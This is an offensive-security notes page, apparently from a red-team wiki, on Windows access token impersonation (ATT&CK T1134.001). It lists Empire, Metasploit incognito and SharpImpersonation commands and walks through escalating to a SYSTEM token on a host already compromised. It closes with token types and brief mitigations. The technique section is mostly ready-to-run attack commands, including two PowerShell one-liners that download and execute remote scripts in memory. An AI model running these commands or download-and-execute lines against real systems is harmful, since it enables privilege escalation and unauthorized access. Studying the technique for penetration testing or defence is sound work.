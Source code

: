 ```yaml
---
description: https://attack.mitre.org/techniques/T1134/001/
---
```


# Token Impersonation

**ATT\&CK ID:** [T1134.001](https://attack.mitre.org/techniques/T1134/001/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark> | <mark style="color:red;">**SYSTEM**</mark> | <mark style="color:green;">**User**</mark>

**Description**

Adversaries may duplicate then impersonate another user's token to escalate privileges and bypass access controls. An adversary can create a new access token that duplicates an existing token using `DuplicateToken(Ex)`. The token can then be used with `ImpersonateLoggedOnUser` to allow the calling thread to impersonate a logged on user's security context, or with `SetThreadToken` to assign the impersonated token to a thread.

An adversary may do this when they have a specific, existing process they want to assign the new token to. For example, this may be useful for when the target user has a non-network logon session on the system.

\[[Source](https://attack.mitre.org/techniques/T1134/001/)]

## Techniques

### Empire

```
usemodule/powershell/privesc/getsystem
```

![](<../../../.gitbook/assets/image (1008).png>)

### Get-System

```
IEX (IWR -usebasicparsing  https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/privesc/Get-System.ps1);Get-System
```

![](<../../../.gitbook/assets/Get-System (2).png>)

### Metasploit

```bash
# Load token module
load incognito

# List available tokens
list_tokens -u

# Impersonate token
impersonate_token <FullNameOfToken>

# Revert to original token (Meterpreter)
rev2self
```

### SharpImpersonation (Invoke)

**URL:** [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpImpersonation.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpImpersonation.ps1)

Load into memory

```
IEX (IWR -usebasicparsing https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpImpersonation.ps1)
```

<pre class="language-powershell"><code class="lang-powershell"># List current tokens on system
Invoke-SharpImpersonation -Command "list"
Invoke-SharpImpersonation -Command "list wmi"

# Attempt to impersonate user with first process found 
Invoke-SharpImpersonation -Command "user:&#x3C;Domain\User>"

# Impersonate in current thread
Invoke-SharpImpersonation "user:&#x3C;Domain\User> technique:ImpersonateLoggedOnUser"

# Inject directly into a process ID
Invoke-SharpImpersonation -Command "pid:&#x3C;PID>"

<strong># Impersonate first process of target user to a custom binary path
</strong>Invoke-SharpImpersonation -Command "user:&#x3C;Domain\User> binary:&#x3C;binary-Path>"
Invoke-SharpImpersonation -Command "user:&#x3C;Domain\User> binary:powershell.exe"
Invoke-SharpImpersonation -Command "user:&#x3C;Domain\User> binary:cmd.exe"

# List all running processes and users natively
Get-Process -IncludeUserName | Select UserName, ProcessName, ID | Sort UserName
</code></pre>

## Scenario

In this scenario we will be using Metasploit. This scenario assumes we already have gained shell access on the target system as the user 'Bart.Simpson'.

In Metasploit we can load the incognito module with the command `load incognito`. This will load the modules required to impersonate another users token. Once loaded we can use the `help` command to show if the module has loaded and what options are available to us.

![](<../../../.gitbook/assets/image (1537).png>)

We can then list the available tokens for users with the `list_tokens -u` command.

![](<../../../.gitbook/assets/image (1538).png>)

In the example below we will attempt to load the 'NT AUTHORITY\SYSTEM' token. with the command:

```
impersonate_token <token>
```

![](<../../../.gitbook/assets/image (1539).png>)

Tokens will persist until a machine has been rebooted. Below I have rebooted the target machine and logged in as the user 'Lisa.Simpson'. I then exploited the machine and viewed available tokens. As we can see we have less available to us now that the machine has been rebooted.

![](<../../../.gitbook/assets/image (1540).png>)

### **Rev2self**

The `meterpreter` command Rev2self can be used to revert to the original user token.

![](<../../../.gitbook/assets/image (423).png>)

## Token Types

#### Delegation

Are generally created when a user logs on interactively to the target system. Delegation tokens can be used elsewhere on the network.

#### Impersonation

Impersonation tokens run in an alternative security context to the process that started it. These tokens are generally not used elsewhere on the network.

***

{% hint style="info" %}
Due to the fact that tokens persist until reboot. Servers and File Servers are a potential treasure troves for tokens.
{% endhint %}

## Mitigation

* Limit permissions so that users and user groups cannot create tokens. This setting should be defined for the local system account only. GPO: Computer Configuration > \[Policies] > Windows Settings > Security Settings > Local Policies > User Rights Assignment: Create a token object. Also define who can create a process level token to only the local and network service through GPO: Computer Configuration > \[Policies] > Windows Settings > Security Settings > Local Policies > User Rights Assignment: Replace a process level token.
* Administrators should log in as a standard user but run their tools with administrator privileges using the built-in access token manipulation command `runas`.
* An adversary must already have administrator level access on the local system to make full use of this technique; be sure to restrict users and accounts to the least privileges they require.

## Further Reading:

**Analysis of Access Token Theft and Manipulation:** [https://www.mcafee.com/enterprise/en-us/assets/reports/rp-access-token-theft-manipulation-attacks.pdf](https://www.mcafee.com/enterprise/en-us/assets/reports/rp-access-token-theft-manipulation-attacks.pdf)
